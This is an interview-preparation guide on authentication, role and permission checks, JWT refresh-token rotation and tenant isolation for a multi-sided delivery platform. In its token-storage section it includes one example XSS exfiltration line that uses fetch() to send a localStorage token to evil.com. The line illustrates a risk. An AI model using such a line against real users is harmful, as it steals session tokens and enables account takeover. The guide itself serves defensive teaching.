



# 🎓 Zlice Module 1: Multi-Role Authentication, RBAC & Multi-Tenant Data Isolation
## Enterprise Interview Mastery Guide (Big Tech / FAANG / High-Scale Hyperlocal Delivery)

---

## 📌 Executive Summary

In hyperlocal multi-sided platforms (like **Zlice**, **DoorDash**, **UberEats**, **Swiggy**, and **Zomato**), the authentication and authorization layer is substantially more complex than in single-tenant consumer apps or traditional B2B SaaS.

You are coordinating **four fundamentally distinct actors** interacting with the same underlying infrastructure:
1. **Customers**: Browsing, ordering, tracking, cancelling, managing personal payment tokens.
2. **Canteens (Tenants)**: Canteen owners, kitchen staff, managers updating menus, accepting orders, toggling availability.
3. **Delivery Partners**: On-duty logistics agents updating GPS coordinates, accepting delivery dispatches, reporting delivery milestones.
4. **Platform Administrators**: Super-users auditing platform metrics, resolving campus disputes, configuring system rules.

Below is the definitive interview guide containing the exact architectural depth, edge cases, failure modes, and follow-ups demanded by Big Tech (Google, Uber, Amazon, Meta) and top-tier consumer-tech hiring committees.

---

## 🚨 QUESTION 1: THE MULTI-TENANT ISOLATION IMPERATIVE

### ❓ The Interviewer's Question:
> *"In Zlice, a Canteen Owner logs in and views their orders. How do you guarantee at the architectural level that Canteen Owner A can NEVER access, modify, or cancel orders belonging to Canteen Owner B? Walk me through what checks happen on every request."*

---

### ❌ The "Junior / Intermediate" Answer (Red Flag):
> *"We check `if (req.user.role === 'canteen_owner')`. If they have the role, we let the request through and run `Order.find({ canteenId: req.params.canteenId })`."*

**Why this fails in Big Tech interviews:**
- Checking only the role confirms *what kind of user* they are, but **not which organization or resources they own**.
- This is a catastrophic **IDOR (Insecure Direct Object Reference) / Broken Object Level Authorization (OWASP API1:2023)**.
- Any authenticated canteen owner could simply change the URL from `/canteens/65a1/orders` to `/canteens/65b2/orders` and view a competing canteen's confidential revenue, customer phone numbers, and pending orders!

---

### 🏆 The Enterprise / MNC Architectural Answer:

To guarantee absolute tenant isolation, we implement a **Three-Tier Defense-in-Depth Model**:



#### Tier 1: Identity & Tenant Claim Binding
During login/token issuance, the user's bound `canteenId` is cryptographically signed inside the JWT payload:
```typescript
interface IAccessTokenPayload {
  userId: string;
  role: UserRole;
  canteenId?: string; // Cryptographically signed tenant identity
  permissions: Permission[];
  sessionId: string;
}
```
An attacker cannot tamper with `canteenId` without invalidating the cryptographic signature (HMAC-SHA256 / RSA-SHA256).

#### Tier 2: The Gateway / CanteenScope Middleware
Before the request reaches the business controller, the `requireCanteenScope()` middleware intercepts the call:
1. **Tenant Extraction**: It extracts the target `canteenId` from route parameters (`:canteenId`), request body, or query params.
2. **Identity Verification**: If `req.user.role` is `canteen_owner` or `canteen_staff`, it asserts:
   ```typescript
   if (req.params.canteenId !== req.user.canteenId) {
     throw ApiError.forbidden("Cross-tenant access prohibited", "CROSS_TENANT_VIOLATION");
   }
   ```
3. **Database Consistency Assertion**: Prevents stale token abuse (e.g. if a staff member was terminated 2 minutes ago, their JWT is still valid for 13 minutes). We verify the canteen exists, is active, and the user is currently associated in the DB.
4. **Context Injection**: The verified `canteenId` is assigned to `req.canteenId`.

#### Tier 3: Repository / Query Layer Isolation (Never Trust Route Params)
In the controller and service layer, we **never query using the client-supplied route parameter**. We strictly query using `req.canteenId`:
```typescript
// SECURE: Enforces tenant boundary directly at the database layer
const orders = await Order.find({
  canteenId: req.canteenId, // Injected by verified middleware, NOT from req.body or req.params
  status: OrderStatus.PLACED
});
```

---

### 🔥 Big Tech Follow-Up 1.1:
> *"What if an engineer on your team forgets to attach `requireCanteenScope()` to a new endpoint like `POST /canteens/:canteenId/discount-codes`? How do you prevent human error from causing a data leak?"*

#### The Senior Response:
1. **Architectural Guardrails (Automated Route Auditing)**:
   - In CI/CD, we run static AST analysis or integration tests asserting that any route matching `/canteens/:canteenId/*` has `requireCanteenScope` registered in its middleware stack.
2. **Scoped Sub-Routers**:
   - Instead of attaching the middleware to individual route handlers, mount it at the router root:
     ```typescript
     const canteenRouter = Router({ mergeParams: true });
     canteenRouter.use(authenticate, requireCanteenScope()); // Every child route inherits tenant scoping!
     canteenRouter.get('/orders', CanteenController.getOrders);
     canteenRouter.post('/discounts', CanteenController.createDiscount);
     ```
3. **Mongoose / ORM Plugin (Tenant Context Propagation via AsyncLocalStorage)**:
   - Using Node.js `AsyncLocalStorage`, we store the tenant context per asynchronous execution chain. A Mongoose pre-hook automatically injects `{ canteenId: currentTenantId }` into every find, update, and delete query on multi-tenant collections, making data leaks impossible even if the controller omits it.

---

### 🔥 Big Tech Follow-Up 1.2:
> *"A canteen staff member was fired at 2:00 PM. Their JWT access token is valid until 2:15 PM. How do you prevent them from downloading customer data or accepting orders during those 15 minutes?"*

#### The Senior Response:
There are three standard production patterns, each with deliberate trade-offs:
1. **Real-time Session Revocation via Redis (The Zlice Solution)**:
   - When staff is terminated or role is revoked, an event is emitted: `staff.deactivated`.
   - The user's active session is marked revoked in MongoDB AND cached in Redis with key `session:revoked:<sessionId>` with a TTL equal to token expiry (15 mins).
   - The authentication middleware performs an $O(1)$ memory lookup against Redis (`await cache.get(...)`). If present, the request is rejected with `401 SESSION_REVOKED` in under 1 millisecond.
2. **User Versioning / Token Epoch**:
   - User document stores `tokenVersion: number` or `passwordChangedAt: Date`.
   - JWT payload contains `tokenVersion: 3`.
   - When terminated, increment `user.tokenVersion = 4`. Any token with version 3 is rejected.
3. **Short Token Lifespans (3-5 minutes)**:
   - Decreasing access token expiration from 15 minutes to 3-5 minutes limits the vulnerability window to an acceptable threshold, eliminating heavy token lookup overhead if Redis is under stress.

---

## 🔑 QUESTION 2: JWT REFRESH TOKEN ROTATION & REPLAY ATTACK MITIGATION

### ❓ The Interviewer's Question:
> *"Explain your token lifecycle. Why not just use a 30-day Access Token? And if a Refresh Token is stolen over a public campus Wi-Fi network, how does your system detect and stop the attacker?"*

---

### 🏆 The Enterprise / MNC Architectural Answer:

#### Why Short-Lived Access Tokens (15 mins) + Long-Lived Refresh Tokens (7 days)?
- **Access Tokens are Stateless**: Verified locally by signature verification (`jwt.verify`) without hitting the database on every microservice call. However, stateless tokens cannot be easily invalidated before expiration.
- **Refresh Tokens are Stateful & Controlled**: Stored in the database and monitored. They are only exchanged when an access token expires.
- By keeping the Access Token short-lived (15 minutes), the window of vulnerability if a bearer token is intercepted in transit is negligible.

#### The Replay Attack & Refresh Token Rotation (RFC 6819 Section 5.2.2.3):



#### How Zlice Implements Token Rotation with Reuse Detection:
1. **Token Family Lineage**: Every login creates a session assigned a unique `family` UUID.
2. **One-Time Use**: Refresh tokens are strictly single-use. When the client sends `refreshToken_v1`, the server:
   - Validates the cryptographic signature.
   - Computes `SHA-256(refreshToken_v1)` and compares against the database.
   - Issues `refreshToken_v2`, updates the stored hash to `SHA-256(refreshToken_v2)`, and issues a new Access Token.
3. **Replay Detection Trigger**:
   - If an attacker attempts to present `refreshToken_v1` *after* the legitimate client has already rotated to `refreshToken_v2`, the hash in DB will not match `refreshToken_v1`.
   - **Crucial Security Action**: The server detects that a stale token from this family was reused. This is the hallmark of token compromise.
   - The server **immediately invalidates all sessions belonging to that token family (`isRevoked: true`)**, blacklists the session in Redis, logs a security alert, and forces both parties to re-authenticate.

---

### 🔥 Big Tech Follow-Up 2.1:
> *"In a mobile app with poor campus Wi-Fi, two API requests trigger token refresh simultaneously. What happens? Will the app falsely trigger a Replay Attack and log the user out?"*

#### The Senior Response:
This is a famous distributed systems race condition called **Concurrent Token Refresh / Jitter**.
- **The Problem**: Request A and Request B fire at the same time. Both see the access token expired and both call `/auth/refresh-token` with `refreshToken_v1`. Request A reaches the server 10ms before Request B. Request A rotates the token to `v2`. When Request B arrives with `v1`, naive reuse detection would flag a replay attack and kill the session!
- **The Enterprise Solution (Grace Period / Leeway Window)**:
  1. **Frontend Mutex / Request Queue**: The mobile HTTP client (e.g. Axios Interceptor or TanStack Query) uses a concurrency mutex. Only one refresh request is allowed in-flight; all other pending requests queue up and await the new token.
  2. **Backend Rotation Grace Period (30-60 seconds)**:
     - When `refreshToken_v1` is rotated to `refreshToken_v2`, we retain `previousRefreshTokenHash = Hash(refreshToken_v1)` in the session with a timestamp `rotatedAt`.
     - If the identical `refreshToken_v1` is submitted within a 30-second window, the server recognizes it as a network retry or concurrent request, returns the newly generated `refreshToken_v2` without triggering a breach alarm, but does not allow further rotation.
     - Any request with `refreshToken_v1` after the grace period expires triggers full family revocation.

---

## 🛡️ QUESTION 3: RBAC VS PBAC VS ABAC VS REBAC

### ❓ The Interviewer's Question:
> *"Why did you implement both Roles (RBAC) and Permissions (PBAC) in Zlice? Why not just use Roles like `isAdmin` or `isCanteenOwner`?"*

---

### 🏆 The Enterprise / MNC Architectural Answer:

| Model | Definition | When to Use | Limitation in Complex Systems |
| :--- | :--- | :--- | :--- |
| **RBAC** (Role-Based Access Control) | Permissions are grouped into static roles (`CUSTOMER`, `CANTEEN_STAFF`, `DELIVERY_PARTNER`). Users have roles. | Coarse-grained routing (e.g., only delivery partners can hit delivery routes). | **Role Explosion**: When kitchen staff can mark food ready but cannot modify food prices, you'd need `CANTEEN_KITCHEN_STAFF`, `CANTEEN_MANAGER`, `CANTEEN_BILLING_STAFF` roles. |
| **PBAC** (Permission-Based Access Control) | APIs check granular permissions (`menu:create`, `menu:toggle_availability`, `order:update_status`). | Dynamic capability checks. Allows custom staff privileges per canteen without changing code. | Does not account for dynamic environment state (e.g., time of day, distance). |
| **ABAC** (Attribute-Based Access Control) | Access evaluated at runtime based on subject, resource, and environment attributes. | Contextual rules: *"A delivery partner can only view customer's phone number IF order status is OUT_FOR_DELIVERY and distance < 2km."* | Higher computational overhead and rule engine complexity. |
| **ReBAC** (Relationship-Based Access Control) | Access evaluated via graph relations (Google Zanzibar model). | *"User X has access to Resource Y because X is staff of Canteen Z which owns Resource Y."* | Requires specialized graph index / Zanzibar engine (Ory Keto, SpiceDB). |

#### How Zlice Solves This:
Zlice uses a **Hybrid RBAC + PBAC Architecture**:
1. High-level routes use **RBAC** for early gateway filtering (`requireRole(UserRole.CANTEEN_OWNER)`).
2. Action endpoints check **PBAC** (`requirePermission(Permission.MENU_TOGGLE_AVAILABILITY)`), allowing a canteen owner to delegate partial permissions to junior kitchen workers.
3. Ownership and tenant bounds use **ABAC-style runtime assertions** via `requireCanteenScope()`.

---

## 📱 QUESTION 4: SECURE TOKEN STORAGE: MOBILE VS WEB

### ❓ The Interviewer's Question:
> *"Where do you store Access and Refresh tokens on the Customer Mobile App (React Native) versus the Canteen Web Dashboard (React)? Explain the security vulnerabilities of each."*

---

### 🏆 The Enterprise / MNC Architectural Answer:



#### 1. Browser (Canteen Web Dashboard & Admin Portal):
- ❌ **NEVER store tokens in `localStorage` or `sessionStorage`**:
  - `localStorage` is accessible to ANY JavaScript code executing in the window context.
  - A single compromised third-party npm package, CDN script, or XSS flaw allows an attacker to execute `fetch('https://evil.com?t=' + localStorage.getItem('token'))`, resulting in instant account takeover.
- ✅ **The Enterprise Pattern (Dual-Storage Strategy)**:
  - **Access Token**: Kept **in-memory** (in React application state / closure). Immune to XSS persistence. When the user refreshes the page, the app calls `/auth/refresh-token` to silently get a new access token.
  - **Refresh Token**: Stored in a **`HttpOnly`, `Secure`, `SameSite=Strict` Cookie**.
    - `HttpOnly`: Client-side JavaScript cannot read the cookie document (`document.cookie` returns empty), mitigating XSS token extraction.
    - `Secure`: Cookie is transmitted solely over encrypted TLS/HTTPS connections.
    - `SameSite=Strict` or `SameSite=Lax`: Prevents Cross-Site Request Forgery (CSRF).

#### 2. Mobile Applications (React Native):
- ❌ **NEVER store tokens in `AsyncStorage`**:
  - `AsyncStorage` on Android/iOS is unencrypted plain XML / SQLite storage on the file system. On rooted or jailbroken devices, or via backup extraction, tokens are accessible in plain text.
- ✅ **Hardware-Backed Secure Storage**:
  - **iOS**: **iOS Keychain Services** (`kSecAccessControlBiometryAny` / Hardware Secure Enclave).
  - **Android**: **Android Keystore Provider** (`EncryptedSharedPreferences` / Hardware-backed TEE - Trusted Execution Environment).
  - Implemented in React Native using `react-native-keychain` or Expo's `expo-secure-store`.

---

## 💻 QUESTION 5: MULTI-DEVICE SESSION MANAGEMENT & LOGOUT EVERYWHERE

### ❓ The Interviewer's Question:
> *"A delivery partner loses their phone while logged in. They borrow a friend's phone, log into Zlice, and click 'Sign out of all other devices'. How does your backend invalidate all existing tokens without needing a database read on every single incoming API request?"*

---

### 🏆 The Enterprise / MNC Architectural Answer:

#### The Dilemma:
- If access tokens are purely stateless, a server cannot revoke an access token before its 15-minute expiration without checking state.
- But checking the database on *every single request* destroys the primary benefit of JWTs (stateless horizontal scalability).

#### The High-Throughput Solution:
1. **User Revocation Timestamp in Redis / In-Memory Cache**:
   - When the user clicks "Sign out of all other devices", the server updates:
     - MongoDB: `Session.updateMany({ userId, _id: { $ne: currentSessionId } }, { isRevoked: true })`
     - Redis: `cache.set("user:revocation_cutoff:" + userId, currentUnixTimestamp, "EX", 900)` (900 seconds = access token lifespan).
2. **Access Token Payload contains `iat` (Issued At)**:
   - Every Access Token has standard claim `iat: 1715000000`.
3. **Sub-Millisecond Verification in Middleware**:
   ```typescript
   // Fast Redis lookup: Has this user performed a bulk logout recently?
   const cutoffTime = await cache.get(`user:revocation_cutoff:${payload.userId}`);
   if (cutoffTime && payload.iat < parseInt(cutoffTime, 10)) {
     throw ApiError.unauthorized("Session revoked. Please re-authenticate.", "SESSION_REVOKED");
   }
   ```
4. **Result**:
   - The lost device's token is blocked immediately on its next request.
   - Redis key auto-expires after 15 minutes because all tokens issued before the cutoff have naturally expired anyway!
   - Normal traffic incurs zero primary database load.

---

## 📊 Summary Comparison: Junior vs Staff Engineer Mental Model

| Dimension | Junior / Novice Approach | Staff / Enterprise Approach |
| :--- | :--- | :--- |
| **Authorization** | Checks `user.role === 'canteen_owner'` | Role + Permission + Tenant context verification (`requireCanteenScope`) + DB association check |
| **Data Filtering** | Queries database with client-supplied `req.params.canteenId` | Queries database strictly with injected `req.canteenId` validated by middleware |
| **Refresh Tokens** | Infinite refresh token in database without rotation | Single-use rotation with Family UUID tracking & automated replay breach detection |
| **Token Storage** | `localStorage` for both mobile & web | In-memory + HttpOnly SameSite cookie for web; OS Keychain / Keystore for mobile |
| **Revocation** | "Wait 15 mins for token to expire" | Event-driven Redis blacklisting + cut-off timestamp verification ($O(1)$) |
| **Password Hashing**| MD5 / SHA-256 | Bcrypt with salt rounds / Argon2id with work factor protection against GPU brute force |

---

## 🎯 Final Takeaway for Candidates
When an interviewer asks you about Authentication & Multi-Tenancy:
> *"Never talk about authentication as just 'logging a user in'. Frame it as an **interconnected perimeter defense** that guarantees identity integrity, enforces continuous tenant isolation, mitigates replay attacks through cryptographic token rotation, and scales horizontally with sub-millisecond revocation caching."*
